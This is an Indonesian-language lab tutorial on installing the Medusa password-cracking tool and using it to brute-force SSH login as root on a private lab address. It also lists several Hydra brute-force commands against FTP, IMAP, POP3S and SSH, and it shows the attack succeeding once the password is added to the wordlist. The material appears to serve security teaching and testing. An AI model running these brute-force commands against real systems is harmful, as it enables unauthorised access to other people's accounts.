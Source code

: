 ## INSTALASI MEDUSA

* **Step 1**    : Download package medusa dari [foofus.net/goons/jmk/medusa/medusa.html](http://foofus.net/goons/jmk/medusa/medusa.html)

  ```
  wget http://www.foofus.net/jmk/tools/medusa-2.2.tar.gz
  ```

* **Step 2**    : Untuk menkonfigurasi, compile dan menginstall Medusa, ketik kode berikut di terminal:

  ```
  tar -zxvf medusa-2.2.tar.gz
  cd medusa-2.2
  ./configure
  make
  make install
  ```

## DEPENDENCY

* OpenSSL
* LibSSH2
* NCPFS
* LibPQ
* Subversion
* afpfs-ng

Jika bekum memiliki dependency terebut maka medusa tidak dapat dijalankan, berikut command install seluruh dependency :

```
sudo add-apt-repository "deb http://archive.ubuntu.com/ubuntu/ wheezy universe multiverse"

sudo apt-get update

sudo apt-get install build-essential make patch subversion openssl libssl-dev libncp-dev libpq-dev libgcrypt11-dev libgnutls-dev libsvn-dev zlib1g-dev libssh2-1-dev libnl-dev gettext autoconf tcl8.5 libpcap0.8-dev python-scapy python-dev cracklib-runtime macchanger-gtk tshark ethtool
```

## UJI COBA

**Contoh**:

```
  hydra -l user -P passlist.txt ftp://192.168.0.1
  hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
  hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
  hydra -l admin -p password ftp://[192.168.0.0/24]/
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

Pertama, Siapkan file yang terdiri dari kumpulan password yang dipisahkan oleh baris atau download [disini](/assets/ncrack-hydra/500-worst-passwords.txt). Pada uji coba kali ini, kita akan mencoba melakukan _brute force attack_ pada protokol SSH ke ip address `192.168.56.202` dengan asumsi username `root` dan list password menggunakan file yang telah disiapkan, jalankan perintah dibawah ini pada terminal :

```
medusa -u root -P 500-worst-passwords.txt -h 192.168.56.202 ssh
```

![](/assets/ncrack-hydra/hydra-gagal.png)  
Uji Coba gagal karena password yang digunakan tidak berada dalam file [500-worst-passwords.txt](/assets/ncrack-hydra/500-worst-passwords.txt),

untuk keberhasilan uji coba kali ini, kita tambahkan password yang digunakan dengan cara:

```
echo "pksj" >> 500-worst-passwords.txt
```

![](/assets/ncrack-hydra/hydra-sukses.png)

## KESIMPULAN

Dengan uji coba yang telah dilakukan, Medusa dapat berhasil menyerang protokol ssh dengan _brute force attack_ jika password dari target terdapat didalam file password yang dibuat oleh penyerang dengan waktu 2 menit. Jika password tidak terdapat dalam file, maka serangan akan gagal.

